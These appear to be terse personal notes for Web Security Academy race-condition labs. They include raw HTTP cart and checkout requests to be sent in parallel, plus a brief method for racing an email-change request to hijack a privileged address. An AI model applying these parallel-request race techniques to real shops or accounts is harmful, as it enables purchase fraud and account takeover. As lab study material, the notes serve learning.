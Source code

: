 ```http
Cookie: session=K3YPbMvQuwFTRcfSRCCybcJcMfz0go7n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: th,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: https://0a5000bf0479e02a80fe35ea00bf00de.web-security-academy.net
Referer: https://0a5000bf0479e02a80fe35ea00bf00de.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

productId=1&quantity=1&redir=CART
```
```http
POST /cart/checkout HTTP/2
Host: 0a5000bf0479e02a80fe35ea00bf00de.web-security-academy.net
Cookie: session=K3YPbMvQuwFTRcfSRCCybcJcMfz0go7n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: th,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0a5000bf0479e02a80fe35ea00bf00de.web-security-academy.net
Referer: https://0a5000bf0479e02a80fe35ea00bf00de.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=zGMR81e1udvzWAmGdtnlGwOZ73GNc6wO
```
sent these request in sequence with parallel

---
**Single-endpoint race conditions**

    delete carlos
    email client
    @ginandjuice.shop
1. send the update email in parallel with exploit mail and @ginandjuice, maybe have to send many times
---
**Exploiting time-sensitive vulnerabilities**
